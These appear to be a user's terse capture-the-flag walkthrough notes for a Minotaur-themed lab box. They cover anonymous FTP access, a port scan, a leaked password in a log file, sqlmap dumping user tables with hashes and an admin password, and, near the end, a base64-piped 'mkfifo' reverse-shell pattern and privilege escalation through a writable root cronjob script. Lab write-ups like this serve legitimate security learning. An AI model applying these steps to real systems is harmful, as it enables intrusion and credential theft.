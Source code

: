 ftp enum gave flag and some files #anonymous login (no password required!)
21/tcp   open  ftp
80/tcp   open  http
443/tcp  open  https
3306/tcp open  mysql

http-enum showed logs folder which had post_log.log 
'email' : Daedalus | 'password' : g2e55kh4ck5r
search api vulnerable to sqlmap
idCreature | nameCreature | passwordCreature                 | permissionCreature |
+------------+--------------+----------------------------------+--------------------+
| 1          | Cerberos     | 3898e56bf6fa6ddfc3c0977c514a65a8 | user               |
| 2          | Pegasus      | 5d20441c392b68c61592b2159990abfe | user               |
| 3          | Chiron       | f847149233ae29ec0e1fcf052930c044 | user               |
| 4          | Centaurus    | ea5540126c33fe653bf56e7a686b1770 | user               |
+------------+--------------+----------------------------------+--------------------+

idPeople   | namePeople   | passwordPeople                   | permissionPeople | passwords |
+----------+--------------+----------------------------------+------------------+-----------+
| 1        | Eurycliedes  | 42354020b68c7ed28dcdeabd5a2baf8e | user             | 
| 2        | Menekrates   | 0b3bebe266a81fbfaa79db1604c4e67f | user             |
| 3        | Philostratos | b83f966a6f5a9cff9c6e1c52b0aa635b | user             |
| 4        | Daedalus     | b8e4c23686a3a12476ad7779e35f5eb6 | user             |
| 5        | M!n0taur     | 1765db9457f496a39859209ee81fbda4 | admin            | aminotauro

logging in as admin user shows flag2

base64 encode the rm mkfifo shell
<base64 encode> | base64 -d | bash

for root, there is cronjob running as root with a writable script(yeh, too easy but looked it up, too lazy to enumerate properly, ig)


